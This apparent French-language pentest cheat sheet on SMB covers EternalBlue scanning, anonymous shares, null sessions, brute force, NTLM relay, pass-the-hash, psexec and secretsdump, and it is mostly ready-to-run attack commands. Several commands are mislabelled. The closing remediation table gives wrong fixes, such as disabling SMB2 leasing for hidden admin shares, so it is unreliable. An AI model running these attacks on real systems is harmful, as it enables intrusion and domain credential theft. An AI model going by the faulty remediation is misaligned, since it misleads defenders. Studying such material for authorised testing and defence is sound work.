

Cette documentation détaille les vecteurs d'attaque liés aux configurations **SMB** (Server Message Block) et les méthodes d'énumération associées, en complément des sujets **SMB Enumeration**, **NTLM Relay Attacks**, **Active Directory Enumeration** et **Password Attacks**.

## SMBv1 (EternalBlue)

> [!danger]
> L'exploitation de **EternalBlue** peut provoquer un crash du service (BSOD) sur les systèmes instables.

Le protocole **SMBv1** est obsolète et vulnérable à la **CVE-2017-0144**, permettant une **RCE**.

### Scan de vulnérabilité

```bash
crackmapexec smb target.com --gen-relay-list smb_hosts.txt
```

```bash
nmap --script=smb-vuln-ms17-010 -p 445 target.com
```

## Partages anonymes

> [!tip]
> Toujours vérifier les permissions de lecture/écriture sur les partages trouvés avant de tenter une exécution de code.

L'accès sans authentification permet l'exfiltration de données.

### Énumération et accès

```bash
crackmapexec smb target.com --shares -u '' -p ''
```

```bash
smbclient //target.com/public -N
```

## Bruteforce

Les comptes utilisant des mots de passe faibles sont vulnérables aux attaques par dictionnaire.

### Outils d'attaque

```bash
crackmapexec smb target.com -u users.txt -p passwords.txt
```

```bash
hydra -L users.txt -P passwords.txt smb://target.com
```

## Null Sessions

> [!note]
> L'énumération des utilisateurs via **Null Sessions** nécessite souvent que le serveur autorise les connexions anonymes.

Les **Null Sessions** permettent l'énumération des utilisateurs et des groupes sans authentification préalable.

### Énumération

```bash
crackmapexec smb target.com --users -u '' -p ''
```

```bash
rpcclient -U "" target.com
enumdomusers
```

## Attaques par Relay (SMB Relay / NTLM Relay)

> [!danger]
> Le **SMB Signing** doit être désactivé sur la cible pour réussir une attaque de type **SMB Relay**.

Cette attaque consiste à intercepter une authentification NTLM et à la relayer vers une machine cible pour obtenir un accès non autorisé.

### Exécution de l'attaque

```bash
# Configuration de Responder pour capturer les hashs
responder -I eth0 -rdw

# Utilisation de ntlmrelayx pour relayer vers la cible
impacket-ntlmrelayx -tf targets.txt -smb2support
```

## Exploitation post-bruteforce (Pass-the-Hash)

Une fois un hash NTLM récupéré, il est possible de s'authentifier sans connaître le mot de passe en clair.

### Exécution avec CrackMapExec

```bash
crackmapexec smb target.com -u username -H <LM:NTLM_HASH>
```

## Analyse des permissions ACL sur les partages

L'analyse des ACL permet d'identifier des accès en écriture sur des répertoires sensibles (scripts, dossiers de déploiement).

### Énumération des permissions

```bash
# Utilisation de smbmap pour lister les permissions
smbmap -u username -p password -H target.com -R
```

## Utilisation de Impacket (psexec.py, secretsdump.py)

La suite **Impacket** est essentielle pour l'exploitation avancée des services SMB.

### Exécution de code (psexec.py)

```bash
impacket-psexec domain/username:password@target.com
```

### Extraction des secrets (secretsdump.py)

```bash
impacket-secretsdump -just-dc domain/username:password@target.com
```

## SMB Signing

> [!danger]
> Le **SMB Signing** doit être désactivé sur la cible pour réussir une attaque de type **SMB Relay**.

Le **SMB Signing** garantit l'intégrité des paquets. S'il est désactivé, le système est vulnérable aux attaques de type **Man-in-the-Middle**.

### Vérification

```bash
crackmapexec smb target.com --pass-pol
```

## Partages cachés (Admin$)

Les partages administratifs permettent un accès privilégié au système de fichiers.

### Énumération et accès

```bash
crackmapexec smb target.com --shares
```

```bash
smbclient //target.com/C$ -U administrator
```

## Remédiation (Blue Team)

| Vulnérabilité | Commande de remédiation |
| :--- | :--- |
| **SMBv1** Activé | `Set-SmbServerConfiguration -EnableSMB1Protocol $false` |
| Partages anonymes | `Set-SmbServerConfiguration -RejectUnencryptedAccess $true` |
| Mots de passe faibles | `net accounts /minpwlen:12` |
| **Null Sessions** | `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 1 /f` |
| **SMB Signing** désactivé | `Set-SmbServerConfiguration -RequireSecuritySignature $true` |
| Partages cachés | `Set-SmbServerConfiguration -EnableSMB2Leasing $false` |
```